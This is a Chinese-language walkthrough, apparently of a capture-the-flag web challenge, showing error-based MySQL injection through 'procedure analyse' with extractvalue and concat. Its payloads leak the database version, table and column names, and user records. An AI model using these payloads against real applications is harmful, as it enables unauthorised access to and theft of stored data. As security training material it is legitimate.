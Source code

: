 尝试在analyse函数中构造错误, 通过返回错误显示来得到结果. 修改analyse中的参数, 尝试在参数中使用语句:
```php
?start=1 procedure analyse(select 1,1)%23&num=1
```
报错

尝试`extractvalue`函数, 随便填两个字符串
> `extractvalue`用于xml解析

```php
?start=1 procedure analyse(extractvalue(0x213,0x12),1)%23&num=1
```
报错注入

尝试:
```php
?start=1 procedure analyse(extractvalue(0x213,version()),1)%23&num=1
```


返回报错, 但是显示不全. 所以在之前就得开始报错, 修改内容使其更好显示, 使用`concat`查看:
> `CONCAT()` 函数是mysql中非常重要的函数，可以将多个字符串连接成一个字符串
> `@@version`显示当前数据库版本


```php
?start=1 procedure analyse(extractvalue(1,concat(0x25,@@version)),1)%23&num=1
```

看到错误显示, 得到数据库版本.

## (2) 注入
得到当前数据库:
```php
?start=1 procedure analyse(extractvalue(0x213,concat(0x25,database())),1)%23&num=1
```

得到表名:
```php
?start=1 procedure analyse(extractvalue(0x21,concat(0x25,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),1)%23&num=1
```
出article和user表

得到列名:
```php
得到列名
?start=1 procedure analyse(extractvalue(0x21,concat(0x25,(select group_concat(column_name) from information_schema.columns where table_name=0x61727469636C65))),1)%23&num=1
?start=1 procedure analyse(extractvalue(0x21,concat(0x25,(select group_concat(column_name) from information_schema.columns where table_name=0x75736572))),1)%23&num=1
```
得到id,username,password,lastloginI等字段


查看username字段有哪些值:
```php
?start=1 procedure analyse(extractvalue(rand(),concat(0x3a,(select group_concat(username) from user))),1)%23 &num=1 %23
```
出现user,admin,flag

